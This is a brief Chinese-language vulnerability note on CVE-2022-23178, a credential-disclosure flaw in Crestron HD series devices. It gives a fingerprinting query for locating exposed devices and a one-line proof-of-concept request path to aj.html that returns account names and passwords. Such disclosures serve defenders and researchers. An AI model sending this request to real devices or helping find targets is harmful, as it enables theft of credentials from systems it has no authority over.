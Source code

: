# Crestron aj.html 账号密码泄漏漏洞 CVE-2022-23178

## 漏洞描述

Crestron HD等系列设备 aj.html页面调用特定的参数可以获取账号密码等敏感信息

## 漏洞影响

```
Crestron HD等系列设备
```

## 网络测绘

```
app="Crestron-HD-RX-201-C-E"
```

## 漏洞复现

POC

```
/aj.html?a=devi
```

![image-20220519161948146](images/202205191619189.png)